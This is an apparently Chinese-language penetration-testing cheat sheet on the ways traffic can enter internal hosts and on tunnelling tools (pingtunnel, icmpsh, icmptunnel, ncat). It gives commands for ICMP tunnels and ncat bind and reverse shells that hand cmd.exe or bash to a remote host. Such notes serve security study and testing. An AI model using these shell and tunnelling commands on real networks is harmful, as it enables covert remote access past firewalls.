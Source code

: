 ## 内网主机所有可能的入网方式

1. 允许ICMP协议入网：能ping通目标主机
2. 允许特定的TCP或UDP协议端口入网：NAT端口映射公网IP端口到内网主机的服务端口，比如将web服务、mysql服务NAT映射到公网
3. 允许特定的应用层协议入网：这种网络防火墙能识别应用层的协议，放行允许入网的协议。比如HTTP反向代理，将公网收到的HTTP流量反向代理进内网主机。当前主流的入网方式，通常会加层WAF审查入网流量

### 内网穿透常用工具

#### 网络层隧道工具

- pingtunnel[工具地址](https://github.com/esrrhs/pingtunnel)：tcp、udp、socks5 over ICMP，速度快，连接稳定，跨平台，client模式不需要管理员权限即可正常使用，推荐使用

```l
server
sudo ./pingtunnel -type server

安装GUI客户端(新手推荐):https://github.com/esrrhs/pingtunnel-qt

安装客户端(高玩推荐)
转发sock5
pingtunnel.exe -type client -l :4455 -s www.yourserver.com -sock5 1

转发tcp
pingtunnel.exe -type client -l :4455 -s www.yourserver.com -t www.yourserver.com:4455 -tcp 1

转发udp
pingtunnel.exe -type client -l :4455 -s www.yourserver.com -t www.yourserver.com:4455
```

- ptunnel：kali中自带的

- icmpsh[工具地址](https://github.com/inquisb/icmpsh)：能通过ICMP协议反弹cmd，功能单一，反弹回来的cmd极不稳定，不推荐使用,icmpsh的目标主机只能运行于Windows平台，控制端只能运行于Linux平台

- icmptunnel[工具地址](https://github.com/DhavalKapil/icmptunnel)：创建虚拟网卡通过ICMP协议传输网卡流量，基于ICMP隧道的vpn，需要root权限，动静极大，不推荐使用
- 支持IPv6的隧道工具有socat、6tunnel、nt6tunnel等。
- 常用的ICMP隧道工具有icmpsh、PingTunel、icmptunel、powershell icmp等。

#### 传输层隧道工具

- ncat：nmap中的nc升级版

```l
linux|win 互连

win先监听，linux连win，在linux中执行命令（linux主动连接）
win:
ncat -c cmd.exe -v -lp 444
linux:
ncat -v  192.168.3.219 444

linux先监听，win连linux，在win中执行命令（win主动连接）
linux:
ncat -c bash -v -lp 444
win:
ncat -v  192.168.22.154 444

win先监听，linux连win，在win中执行命令（win被动连接）
win：
ncat -v -lp 444 --ssl
linux：
ncat -v -c bash 192.168.3.219 444 --ssl

```